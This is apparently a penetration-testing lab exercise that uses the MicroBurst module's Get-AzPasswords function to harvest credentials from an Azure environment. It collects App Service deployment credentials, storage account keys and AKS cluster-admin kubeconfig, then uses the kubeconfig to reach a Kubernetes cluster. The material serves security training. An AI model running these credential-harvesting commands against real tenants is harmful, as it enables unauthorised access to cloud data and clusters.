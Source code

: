 ### Lab 5A - Credential Hunting
In this hands-on exercise, we will use the MicroBurst function – **`Get-AzPasswords`** to perform an authenticated enumeration of service credentials in an Azure environment.

1. In a PowerShell console on your pentest VM, use the following commands to authenticate to Entra ID (Azure AD) and Azure as the **`Ava`**. Replace the **`USERNAME`** and **`PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file.

```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

2. Import the MicroBurst module into your PowerShell session with the following commands:
* If you receive some error messages about AzureRm, please ignore (AzureRm is deprecated and will be removed in a future release)
```
cd "$env:SystemDrive\PentestTools\Azure\Attack\MicroBurst"
Import-Module .\MicroBurst.psm1
```

3. Run the MicroBurst function to enumerate the service keys that Ava has access to. Some of the calls may fail as Ava does not have access to all of the services.You can ignore these errors.
```
Get-AzPasswords -ExportCerts Y -ExportKube Y -ModifyPolicies Y -Verbose
```

5. Review the results
* **`AppServiceConfig`** type credentials means that you can use these credentals to read and publish code to those services using FTP/WebDeploy/ZipDeploy.
* **`Storage Account`** type credentials means that you can use the keys to read/write data to the storage account.
* **`AKS Cluster Admin`** type credentials means that you can use the credentials to gain access to an AKS cluster.

6. Test to see that there is currently no access to any Kubernetes cluster.
```
# This should fail initially
kubectl get nodes
```

7. Copy everything in the **`AKS Cluster Admin - Value`** field and paste it into a notepad. Copy everything starting from **`apiVersion`** to the end of the **`token`**.
* Also, remode the wide spaces on the left side of the text. You can use CNTRL+H to replace "               " with "". (Let me know if you need assistance). 
* Also remove line breaks for the **`certificate-authority-data`**, **`client-certificate-data`**, **`client-key-data`** and **`token`**.
* Save the file as **File name**: **`kubeconfig.yaml`** and **Save as type**: **`All Files (*.*)`**
* You can validate the file using a tool like [https://www.yamllint.com/](https://www.yamllint.com/)

8. Set the file in the environment path and test access to the cluster again. This should succeed this time.
```
$Env:KUBECONFIG = "$env:SystemDrive\PentestTools\Azure\Attack\MicroBurst\kubeconfig.yaml"

kubectl get nodes
```